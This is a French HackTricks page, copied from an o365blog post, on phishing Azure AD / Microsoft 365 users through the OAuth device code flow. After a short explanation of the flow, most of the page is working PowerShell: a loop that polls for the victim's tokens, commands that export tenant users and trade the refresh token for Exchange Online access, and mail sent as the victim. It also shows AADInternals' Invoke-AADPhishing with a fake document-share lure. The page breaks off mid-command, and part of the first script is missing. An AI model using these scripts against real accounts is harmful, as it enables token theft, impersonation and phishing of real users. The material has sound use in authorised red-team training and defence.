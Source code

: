 # Az - Hameçonnage d'authentification de code de périphérique

<details>

<summary><strong>Soutenez HackTricks et obtenez des avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFT exclusifs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez** 💬 [**le groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **dépôts Github.**

</details>

**Ce post a été copié depuis** [**https://o365blog.com/post/phishing/**](https://o365blog.com/post/phishing/)

### Qu'est-ce que l'authentification de code de périphérique <a href="#what-is-device-code-authentication" id="what-is-device-code-authentication"></a>

Selon la [documentation](https://docs.microsoft.com/en-us/azure/active-directory/develop/v2-oauth2-device-code) de Microsoft, l'authentification de code de périphérique :

> permet aux utilisateurs de se connecter à des appareils à contraintes d'entrée tels qu'une télévision intelligente, un appareil IoT ou une imprimante. Pour activer ce flux, l'appareil invite l'utilisateur à visiter une page Web dans son navigateur sur un autre appareil pour se connecter. Une fois que l'utilisateur est connecté, l'appareil peut obtenir des jetons d'accès et des jetons de rafraîchissement au besoin.

Le processus est le suivant :

1. Un utilisateur lance une application prenant en charge le flux de code de périphérique sur un appareil
2. L'application se connecte à Azure AD / endpoint devicecode et envoie **client\_id** et **resource**
3. Azure AD renvoie **device\_code**, **user\_code** et **verification\_url**
4. L'appareil affiche l'URL de vérification (hxxps://microsoft.com/devicelogin) et le **user\_code** à l'utilisateur
5. L'utilisateur ouvre un navigateur et navigue vers **verification\_url**, donne le **user\_code** lorsqu'on lui demande et se connecte
6. L'appareil interroge Azure AD jusqu'à ce qu'il obtienne **access\_token** et **refresh\_token** après une connexion réussie

![Flux de code de périphérique](https://o365blog.com/images/posts/phishing\_5.png)

### Hameçonnage avec l'authentification de code de périphérique <a href="#phishing-with-device-code-authentication" id="phishing-with-device-code-authentication"></a>

L'idée de base pour utiliser l'authentification de code de périphérique pour le phishing est la suivante.

1. Un attaquant se connecte à l'endpoint /devicecode et envoie **client\_id** et **resource**
2. Après avoir reçu **verification\_uri** et **user\_code**, créez un e-mail contenant un lien vers **verification\_uri** et **user\_code**, et envoyez-le à la victime.
3. La victime clique sur le lien, fournit le code et termine la connexion.
4. L'attaquant reçoit **access\_token** et **refresh\_token** et peut maintenant imiter la victime.

#### 1. Connexion à l'endpoint /devicecode
# Boucle tant que l'autorisation est en attente ou jusqu'à ce que le délai d'expiration soit dépassé

while($continue)
{
	Start-Sleep -Seconds $interval
	$total += $interval

	if($total -gt $expires)
	{
		Write-Error "Le délai d'expiration est dépassé"
		return
	}
				
	# Essayez d'obtenir la réponse. Donnera 40x pendant la mise en attente, nous devons donc essayer et attraper

	try
	{
		$response = Invoke-RestMethod -UseBasicParsing -Method Post -Uri "https://login.microsoftonline.com/Common/oauth2/token?api-version=1.0 " -Body $body -ErrorAction SilentlyContinue
	}
	catch
	{
		# Ceci est un flux normal, retourne toujours 40x sauf en cas de succès

		$details=$_.ErrorDetails.Message | ConvertFrom-Json
		$continue = $details.error -eq "authorization_pending"
		Write-Host $details.error

		if(!$continue)
		{
			# Pas en attente donc c'est une vraie erreur

			Write-Error $details.error_description
			return
		}
	}

	# Si nous avons obtenu une réponse, tout va bien !

	if($response)
	{
		break # Sortir de la boucle

	}
}
```

Maintenant, nous pouvons utiliser le jeton d'accès pour usurper la victime :

```powershell
# Exporter les utilisateurs du locataire au format csv

Get-AADIntUsers -AccessToken $response.access_token | Export-Csv users.csv
```

Nous pouvons également obtenir des jetons d'accès pour d'autres services en utilisant le jeton de rafraîchissement tant que le client\_id reste le même.

Le script suivant obtient un jeton d'accès pour Exchange Online.

```powershell
# Créer le corps pour obtenir un jeton d'accès pour Exchange Online

$body=@{
	"client_id" =     "d3590ed6-52b3-4102-aeff-aad2292ab01c"
	"grant_type" =    "refresh_token"
	"scope" =         "openid"
	"resource" =      "https://outlook.office365.com"
	"refresh_token" = $response.refresh_token
}

$EXOresponse = Invoke-RestMethod -UseBasicParsing -Method Post -Uri "https://login.microsoftonline.com/Common/oauth2/token" -Body $body -ErrorAction SilentlyContinue

# Envoyer un e-mail en tant que victime

Send-AADIntOutlookMessage -AccessToken $EXOresponse.access_token -Recipient "another.wictim@target.org" -Subject "Paiement en retard" -Message "Payez ceci <h2>au plus vite !</h2>"
```

## Utilisation de AADInternals pour le phishing <a href="#using-aadinternals-for-phishing" id="using-aadinternals-for-phishing"></a>

AADInternals (v0.4.4 ou ultérieure) dispose d'une fonction [Invoke-AADIntPhishing](https://o365blog.com/aadinternals/#invoke-aadintphishing) qui automatise le processus de phishing.

Le message de phishing peut être personnalisé, le message par défaut est le suivant :

```
'<div>Salut !<br/>Ceci est un message envoyé par quelqu'un qui utilise la fonction de phishing AADInternals. <br/><br/>Voici un <a href="{1}">lien</a> que vous <b>ne devez pas cliquer</b>.<br/><br/>Si vous décidez quand même de le faire, fournissez le code suivant lorsqu'on vous le demande : <b>{0}</b>.</div>'
```

Message par défaut dans l'e-mail :\
![Phishing email](https://o365blog.com/images/posts/phishing\_11.png)

Message par défaut dans Teams :\
![Phishing message](https://o365blog.com/images/posts/phishing\_12.png)

### E-mail <a href="#email" id="email"></a>

L'exemple suivant envoie un e-mail de phishing en utilisant un message personnalisé. Les jetons sont enregistrés dans le cache.

```powershell
# Créer un message personnalisé

$message = '<html>Salut !<br/>Voici le lien vers le <a href="{1}">document</a>. Utilisez le code suivant pour y accéder : <b>{0}</b>.</html>'

# Envoyer un e-mail de phishing aux destinataires en utilisant un message personnalisé et enregistrer les jetons dans le cache

Invoke-AADPhishing -Recipients "wvictim@company.com","wvictim2@company.com" -Subject "Johnny a partagé un document avec vous" -Sender "Johnny Carson <jc@somewhere.com>" -SMTPServer smtp.myserver.local -Message $message -SaveToCache 
```

```
Code: CKDZ2BURF
Mail envoyé à : wvictim@company.com
...
Jetons d'accès reçus pour william.victim@company.com
```

Et maintenant, nous pouvons envoyer un e-mail en tant que victime en utilisant le jeton mis en cache.

```powershell
# Envoyer un e-mail en tant que victime

Send-AADIntOutlookMessage -Recipient "another.w